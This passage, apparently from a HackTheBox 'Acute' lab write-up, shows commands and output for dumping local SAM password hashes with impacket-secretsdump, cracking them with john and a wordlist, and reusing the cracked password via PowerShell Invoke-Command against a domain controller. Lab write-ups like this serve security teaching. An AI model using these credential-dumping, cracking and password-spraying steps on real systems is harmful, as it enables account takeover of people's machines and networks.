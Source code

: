 - Generate and crack the password hashes via [Impacket](https://github.com/fortra/impacket)'s `secretsdump` and [`john`](https://github.com/openwall/john):

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|17:09:11(HKT)]
└> impacket-secretsdump -sam SAM.bak -system SYSTEM.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
[*] Cleaning up...
```

**Let's try to crack those hashes!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|17:10:34(HKT)]
└> cat << EOF > Acute-PC01.hash  
heredoc> Administrator:500:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
heredoc> EOF
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|17:10:46(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT Acute-PC01.hash 
[...]
{Redacted}     (Administrator)
[...]
```

Nice! We cracked `Administrator`'s password NT hash!

But... We're already an administrator in `Acute-PC01`...

Ah ha! ***Password reuse?***

Maybe there's a domain user reused this password?

**Let's do password spraying to the Domain Controller on the `edavies` reverse shell session!**

**In my first attempt, domain user `awallace` worked!**
```shell
PS C:\Users\edavies\Documents> $passwd1 = ConvertTo-SecureString "{Redacted}" -AsPlainText -Force
PS C:\Users\edavies\Documents> $cred1 = New-Object System.Management.Automation.PSCredential ("acute\awallace",$passwd1)
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { whoami }
acute\awallace
```

So domain user `awallace` is reusing the local `Administrator` built-in user in `Acute-PC01`.
